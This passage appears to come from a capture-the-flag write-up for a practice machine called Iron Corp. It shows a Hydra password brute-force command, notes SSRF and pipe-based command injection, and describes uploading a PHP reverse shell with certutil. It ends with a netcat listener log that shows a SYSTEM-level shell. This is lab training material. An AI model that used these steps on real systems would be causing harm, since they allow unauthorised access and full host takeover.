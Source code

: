 Lets brute-force the Username and password with Hydra Tool 🔽

```bash
hydra -l admin -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-10000.txt admin.ironcorp.me -s 11025 http-head -I
```
{: .nolineno}

![Image](Pasted%20image%2020240321101317.png)
_Hydra Tool_

After Login I get this page 🔻

![Image](Pasted%20image%2020240321101407.png)
_Search query_

### SSRF Vulnerability ⏬

I looked for SSRF vulnerability and it is indeed SSRF I verified it like this 🔽

![Image](Pasted%20image%2020240321101750.png)
_SSRF response that can access local server file_

So lets access the 403 Error subdomain with this may be I could able to open it through this ⏬

![Image](Pasted%20image%2020240321103710.png)
_SSRF vulnerability and opened the subdomain page in it_

On click <span style="color:#f04276">here</span> I got this redirected page : 

![Image](Pasted%20image%2020240321103934.png)
_Username Equinox_

When I try to search any thing through <mark style="background: #ABF7F7A6;">name</mark> parameter I get appended to the Name like this 🔽

![Image](Pasted%20image%2020240321134319.png)

So I tried to use separator as (|) in between of commands like this 🔽

![Image](Pasted%20image%2020240321105216.png)
_Command Injection_

Lets use our Burpsuite Tool that will intercept the request and I can modify its queries easy also , So I decided to upload `php_reverse_shell.php` file with <mark style="background: #FF5582A6;">certutil</mark> Tool in this system . 

![Image](Pasted%20image%2020240321113025.png)
_Certutil Tool worked successfully_

Lets get the reverse shell now 🔽

```powershell
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Iron_corp]
└─$ rlwrap nc -lvnp 445
listening on [any] 445 ...
connect to [10.11.75.200] from (UNKNOWN) [10.10.64.247] 49711
SOCKET: Shell has connected! PID: 6076
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

E:\xampp\htdocs\internal>whoami
nt authority\system

E:\xampp\htdocs\internal>cd C:\Users\Administrator

E:\xampp\htdocs\internal>C:
```